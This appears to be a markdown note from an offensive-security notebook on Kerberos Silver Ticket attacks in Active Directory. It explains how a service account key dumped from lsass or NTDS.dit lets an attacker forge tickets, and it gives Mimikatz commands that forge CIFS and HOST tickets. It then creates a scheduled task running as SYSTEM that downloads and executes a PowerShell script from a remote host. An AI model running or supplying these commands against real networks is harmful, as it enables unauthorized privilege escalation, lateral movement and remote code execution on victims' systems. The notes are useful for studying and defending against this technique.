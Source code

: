 #mimikatz #schtasks #klist
- STs are encrypted with the service user's key derived from it's password.
- If we have this key, we can forge ST's for any service running under that user. These tickets are called Silver Tickets.
- The key can be dumped from the lsass process memory or by [[#Kerberoast]], or dumping the entire AD Database (NTDS.dit file)
- The PAC is signed with the `krbtgt`'s account, hence a fake signature is used to create the PAC. The PAC signature is not verified if the the ticket is less than 20 minutes old. We can also add more privilege to the PAC, as it is not verified. For example, we can modify the PAC user group to include the `Domain Admins`. 
### Mimikatz
- Mimikatz can be used to forge silver tickets
```powershell
# Create silver ticket to list shares on the machine
kerberos::golden /domain:mydomain.local /sid:<domain-sid> /target:<targetmachine-FQDN> /service:cifs /rc4:<key> /user:Administrator /ptt

# Create silver ticket to gain remote execution on the machine.
# set /service:HOST, this allows to schedule tasks on the machine.
kerberos::golden /domain:mydomain.local /sid:<domain-sid> /target:<targetmachine-FQDN> /service:HOST /rc4:<key> /user:Administrator /ptt
# verifiy with klist
klist
# shchedule the malicious task
schtasks /create /S machine.mydomain.local /SC Weekly /RU "NT Authoririty\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex(New-Object Net.WebClient).DonwloadString(''http://ip/file.ps1''')'"
# Run the task
schtasks /Run /S machine.mydomain.local /TN "STCheck"
